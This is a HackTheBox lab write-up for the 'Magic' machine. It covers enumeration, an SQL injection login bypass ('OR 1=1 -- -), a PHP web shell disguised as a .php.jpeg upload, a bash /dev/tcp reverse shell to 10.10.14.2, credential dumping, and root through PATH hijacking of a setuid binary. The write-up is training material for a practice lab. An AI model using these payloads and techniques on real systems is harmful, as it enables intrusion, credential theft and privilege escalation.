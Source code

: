 # **HACKTHEBOX – MAGIC WRITEUP**

![](/Magic/logo.png)

# **IP: 10.10.10.185**

# **Enumeration**

First, we will run nmap.

![](/Magic/nmap.png)


The scan shows 2 ports are open. Port 22 for SSH and port 80 for Apache.

I will start an all ports nmap scan ( -p ) just in case there are more open ports.

![](/Magic/nmap-allports.png)

The Apache web server has a wider attack surface, so that is what I am going to enumerate more first.

![](/Magic/homewebsite.png)

Port 80 gives a web page with a bunch of images.

Clicking an image only displays the clicked image.
![](/Magic/image-on-website.png)


# **FOOTHOLD**

There is a login button at the bottom left corner that takes me to a php login page.

![](/Magic/login.png)

Knowing that this web server has PHP files, I am going to start a gobuster for hidden directories and php files.

![](/Magic/gobuster.png)

There is a file called &quot;upload.php&quot;. Upload functions tend to be exploitable, so I am going to take a closer look at that file. Opening that files takes me back to the login page.

Whenever I meet a login page, I will always try some weak credentials. Sadly, they didn&#39;t work on this login page. So I try some SQL injection, but the page doesn&#39;t allow spaces for whatever reason. I use Burpsuite to intercept my login request and insert the SQL injection payload that way.

Username: &#39;OR 1=1 -- -

Password: doesn&#39;t matter

Press ctrl + u to URL encode and forward it to the server.

![](/Magic/sqlinjection.png)

We got logged in!

![](/Magic/upload.png)

Exploiting an upload function is easier using Burpsuite, that is where I am going to insert my payloads.

Uploading a php file returns an error.

![](/Magic/errorupload.png)

So there is some file type validations going on, we need to bypass it.

There are a few ways to validate a file. It can be through file extension, MIME type or magic bytes. So I am going to modify the request through the repeater tab (ctrl + r) hopefully bypass the file validations.

I upload a jpeg file and put some php code in it with Burpsuite.

![](/Magic/aaa.png)

This is a simple php code execution script and will run any command through the &quot;cmd&quot; parameter.

The original file name is &quot;lol.jpeg&quot; and I change it to &quot;lol.jpeg.php&quot;.

After that, I send the request to the server but I still get the error.

So I change the filename to &quot;lol.php.jpeg&quot; because there is a chance that apache .htaccess is configured in a weird way and run &quot;php.jpeg&quot; files as php.

![](/Magic/upload-success.png)

I successfully uploaded the file.

Now we need to access the file for the server to run the php code.

If you go back to the main page and click view image on an image there, the directory where the image is stored is on &quot;/image/uploads/&quot;. So I try to hit &quot;/image/uploads/lol.php.jpeg&quot;.

![](/Magic/access-thefile.png)

I successfully access the file. Now I will try injecting a command.

![](/Magic/injectcmd.png)

I run the command &quot;whoami&quot; and it returns www-data. We know for sure we have command execution.

Now we will try a reverse shell payload.

Payload: bash -c "bash -i >& /dev/tcp/10.10.14.2/9001 0>&1"

I set up a listener on port 9001, click send and we got a shell as www-data.

![](/Magic/reverseshell.png)

# **USER**

Looking at the db.php5 file, we got some credentials.

![](/Magic/db-creds.png)

Using those creds to switch user to &quot;theseus&quot; doesn&#39;t work, But we know this is a database credential, we access the database and get more stuff.

But mysql is not installed so I use &quot;mysqldump&quot; instead.

Dumping the database &quot;Magic&quot; gives more credentials.

![](/Magic/creds-inside-db.png)

Using the creds from the sqldump, I can switch to user &quot;theseus&quot;.

# **ROOT**

After getting the theseus user, I like to do some find commands to see what files belong to the user.

Running this returns a lot of stuff that I am too lazy to look at.

![](/Magic/find-user.png)

So I decided to use groups instead.

If we use the groups command, theseus belongs to a group called &quot;users&quot;.

![](/Magic/find-group.png)

Running the find command with groups returns only 1 binary and it is a setuid binary.

I try running the binary and it returns a bunch of system information.

I use strace with the &quot;-f&quot; flag to follow forks on the binary to get more information and I use grep to see what commands this binary is executing.

![](/Magic/strace.png)

The binary doesn&#39;t use absolute path which means we can abuse this.

I write a simple bash reverse shell script called &quot;free&quot;.

![](/Magic/bash-payload.png)

Then I modify the $PATH and add the directory where my &quot;free&quot; script is located and put it before the others.

![](/Magic/exploit-path.png)

Then I setup a listener on port 9002 and run the sysinfo binary and we got root!

![](/Magic/root.png)
